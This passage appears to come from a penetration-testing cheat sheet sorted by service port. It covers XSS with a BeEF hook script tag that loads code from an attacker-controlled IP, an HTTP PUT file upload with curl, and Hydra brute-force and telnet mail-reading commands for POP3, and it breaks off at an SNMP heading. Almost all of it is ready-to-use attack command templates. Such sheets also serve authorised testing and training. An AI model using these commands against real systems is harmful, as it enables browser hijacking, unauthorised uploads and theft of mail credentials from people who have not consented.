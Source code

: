 ```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

beef-xss
cat /usr/share/beef-xss/config.yaml | grep user -C 1 # user / password
<script src="http://<IP>:3000/hook.js"></script>
```

### Other web vulnerabilities

```
https://github.com/swisskyrepo/PayloadsAllTheThings
```

### Upload a file with PUT

```
curl -X PUT http://<IP>/<FILE> -d @<FILE>  -v
```

------

## KERBEROS - 88

```
https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
```

------

## POP3 - 110

### Brute force 

```
hydra -l <USER> -P <PASSWORDS_LIST> -f <IP> pop3 -V
hydra -S -v -l <USER> -P <PASSWORDS_LIST> -s 995 -f <IP> pop3 -V
```

### Read mail

```
telnet <IP> 110

USER <USER>
PASS <PASSWORD>
LIST
RETR <MAIL_NUMBER>
QUIT
```

------

## SNMP - 161
